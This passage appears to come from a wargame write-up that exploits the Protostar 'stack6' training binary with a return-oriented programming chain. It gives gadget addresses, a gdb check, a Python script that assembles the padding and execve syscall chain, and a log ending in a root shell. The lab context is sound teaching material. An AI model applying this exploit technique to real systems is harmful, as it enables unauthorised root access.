 ```
> 0xb7f65be0 : pop ecx; pop eax; ret
> 0xb7f0b886 : pop ebx; ret
> 0xb7ec12fc : pop edx; ret
> 0xb7f2ebf5 : int 0x80; ret
```
We can verify this in gdb. For instance, let's look at the first ROP gadget `0xb7f65be0 : pop ecx; pop eax; ret`.
```
(gdb) x/3i 0xb7f65be0
0xb7f65be0 <mcount+16>:	pop    ecx
0xb7f65be1 <mcount+17>:	pop    eax
0xb7f65be2 <mcount+18>:	ret 
```

So this is what the format of our input would look like: `< 80 chars padding > < ret addr to ROP gadget 1 > < ecx value > < eax value > < ret addr to ROP gadget 2> < ebx value > < ret addr to ROP gadget 3 > < edx value > < ret addr to ROP gadget 4 >`.

This is the Python script that pieces our ROP gadgets together.
```
import struct

padding = '\x61' * 80

addr_of_gadget_1 = struct.pack("I", 0xb7f65be0)
addr_of_gadget_2 = struct.pack("I", 0xb7f0b886)
addr_of_gadget_3 = struct.pack("I", 0xb7ec12fc)
addr_of_gadget_4 = struct.pack("I", 0xb7f2ebf5)


edx_value = ecx_value = '\x00\x00\x00\x00'
ebx_value = struct.pack("I", 0xb7fb63bf)
eax_value = '\x0b\x00\x00\x00'

print padding + addr_of_gadget_1 + ecx_value + eax_value + addr_of_gadget_2 + ebx_value + addr_of_gadget_3 + edx_value + addr_of_gadget_4
```

Running `stack6` with our ROP input, we get a root shell.
```
user@protostar:/opt/protostar/bin$ python /tmp/stack6\ ROP.py > /tmp/stack6\ ROP
user@protostar:/opt/protostar/bin$ cat /tmp/stack6\ ROP - | ./stack6 
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�[��aaaaaaaaaaaa�[��
whoami
root
```

END
